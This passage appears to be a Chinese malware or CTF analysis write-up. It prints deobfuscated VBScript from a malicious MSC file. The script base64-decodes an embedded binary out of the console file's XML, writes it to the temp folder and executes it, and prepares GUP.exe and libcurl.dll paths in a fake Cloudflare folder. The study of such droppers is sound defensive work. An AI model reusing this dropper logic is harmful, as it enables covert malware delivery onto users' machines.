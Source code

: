 脚本参考自-->[H&NCTF--Baby_OBVBS WP](https://blog.csdn.net/wcj126/article/details/138943956)，思路参考自-->[脚本类恶意程序分析技巧汇总 ](https://bbs.kanxue.com/thread-251102.htm)，将代码中混淆的部分一步一步的粘贴到源文件，然后运行这个 VBScript，得到解混淆之后的字符串，全部进行替换，得到如下的代码

```vb
Dim mscLL
mscLL = "_MSC"
For i = 1 To Len(mscLL) Step 4
    oFmXCTg = oFmXCTg & ChrW(CLng("&" & Chr(72) & Mid(mscLL, i, 4)))
Next
Set RTcxFmy = CreateObject("Microsoft.XMLDOM")
RTcxFmy.Async = False
RTcxFmy.Load(oFmXCTg)
AJ8p

Function Xk7fbp8v(inp)
    Dim q4XPbvoV
    Dim HxWK
    Set q4XPbvoV = CreateObject("MSXML2.DOMDocument")
    Set HxWK = q4XPbvoV.createElement("a")
    HxWK.DataType = "bin.base64"
    HxWK.Text = inp
    Xk7fbp8v = HxWK.nodeTypedValue
End Function

Function AJ8p()
    On Error Resume Next
    Dim AgUvcCuHzzbl
    Dim DfAV40y
    Dim gwqhhV
    Dim JJNe
    Dim Mw7U
    Dim O8B1OrkTW
    OMxa = "51734e8e7ec47ec753c252a07b2c516b5c4a201c5f3a7f51676f201d516856fd7f517edc5b895168631162188d5b7684901a77e5ff08003100316708003265e581f3003365e54e3e884c7ebf4e0a8d5bff09002e007000640066"
    Set AgUvcCuHzzbl = CreateObject("WScript.Shell")
    Set DfAV40y = CreateObject("Scripting.FileSystemObject")
    O8B1OrkTW = AgUvcCuHzzbl.ExpandEnvironmentStrings("%ProgramFiles%")
    P59b6scR2TD9 = O8B1OrkTW & "\Cloudflare"
    DfAV40y.CreateFolder(P59b6scR2TD9)
    gwqhhV = P59b6scR2TD9 & "\GUP.exe"
    JJNe = P59b6scR2TD9 & "\libcurl.dll"
    For i = 1 To Len(OMxa) Step 4
        FRURX = FRURX & ChrW(CLng("&" & Chr(72) & Mid(OMxa, i, 4)))
    Next
    Mw7U = DfAV40y.GetSpecialFolder(2) & Chr(92) & FRURX
    Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_TREE']")
    rqsgO2mBfu = aZPHxtz4(0).text
    UoLAunW = Xk7fbp8v(rqsgO2mBfu)
    Dim jXnaWeLQ12
    Set jXnaWeLQ12 = CreateObject("ADODB.Stream")
    jXnaWeLQ12.Type = 1
    jXnaWeLQ12.Open
    jXnaWeLQ12.Write UoLAunW
    jXnaWeLQ12.SaveToFile Mw7U, 2
    AgUvcCuHzzbl.run """" & Mw7U & """", 1, False
    Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU']")
    Ze1C = aZPHxtz4(0).text
    Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_PANE']")
    JozMh9jg = aZPHxtz4(0).text
    AnZUOdqFuMEw = Xk7fbp8v(Ze1C)
```